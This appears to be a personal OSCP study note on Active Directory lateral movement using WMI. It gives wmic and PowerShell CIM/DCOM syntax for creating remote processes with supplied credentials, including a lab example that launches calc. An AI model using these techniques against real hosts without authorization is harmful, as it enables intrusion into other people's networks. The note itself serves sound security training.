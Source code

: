 ```yaml
---
aliases:
  - Active Directory Lateral Movement
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - active_directory
  - ad
  - adds
  - lateral_movement
  - 
author: Mehdi N Tehrani
creat_date: 2024-01-08
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# WMI
#wmi #windows_management_instrumentation

## Requirement
user should have local admin rights on the target host

## Process
Syntax:
```cmd
wmic /node:%host% /user:%username% /password:%pass% process call create "%process_name%"
```
example:
```cmd
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

Syntax:
```powershell
$username = ''
$password = ''
$host_ip = ''
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

$options = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName $host_ip -Credential $credential -SessionOption $Options 
$command = '';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
